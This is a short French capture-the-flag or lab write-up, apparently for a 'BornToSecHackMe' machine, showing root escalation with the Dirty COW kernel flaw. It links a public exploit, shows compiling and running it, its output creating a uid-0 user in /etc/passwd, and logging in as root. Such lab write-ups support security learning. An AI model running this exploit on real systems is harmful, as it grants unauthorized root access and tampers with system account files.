 Il existe un methode pour passer root qui s'appel __dirty cow__

Cette methode consiste a utiliser une faille dans le systeme de la machine pour creer un user avec les acces root.

pour ce faire on utiliser un programme C : https://github.com/firefart/dirtycow/blob/master/dirty.c

```bash 

laurie@BornToSecHackMe:~$ cd /tmp
laurie@BornToSecHackMe:/tmp$ cat > dirty.c << EOF
[...] // programe
EOF
laurie@BornToSecHackMe:/tmp$ gcc dirty.c -o dirty -pthread -lcrypt
laurie@BornToSecHackMe:/tmp$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'q'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'q'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

il nous reste plus cas nous connecter avec le nouveau user

```bash
laurie@BornToSecHackMe:/tmp$ su firefart
Password: 
firefart@BornToSecHackMe:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)

```

nous somme passer root !